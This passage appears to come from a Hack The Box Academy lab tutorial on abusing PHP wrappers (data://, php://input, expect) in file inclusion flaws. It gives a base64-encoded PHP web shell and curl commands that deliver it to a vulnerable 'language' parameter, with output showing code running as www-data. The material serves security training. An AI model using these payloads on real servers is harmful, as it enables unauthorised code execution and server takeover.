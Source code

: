 So, our first step would be to base64 encode a basic PHP web shell, as follows:

PHP Wrappers

```shell-session
root@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

Now, we can URL encode the base64 string, and then pass it to the data wrapper with `data://text/plain;base64,`. Finally, we can use pass commands to the web shell with `&cmd=<COMMAND>`:

![](https://academy.hackthebox.com/storage/modules/23/data\_wrapper\_id.png)

We may also use cURL for the same attack, as follows:

PHP Wrappers

```shell-session
root@htb[/htb]$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

***

### Input

Similar to the `data` wrapper, the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code. The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the `input` wrapper also depends on the `allow_url_include` setting, as mentioned earlier.

To repeat our earlier attack but with the `input` wrapper, we can send a POST request to the vulnerable URL and add our web shell as POST data. To execute a command, we would pass it as a GET parameter, as we did in our previous attack:

PHP Wrappers

```shell-session
root@htb[/htb]$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Note: To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)

***

### Expect

Finally, we may utilize the [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper, which allows us to directly run commands through URL streams. Expect works very similarly to the web shells we've used earlier, but don't need to provide a web shell, as it is designed to execute commands.
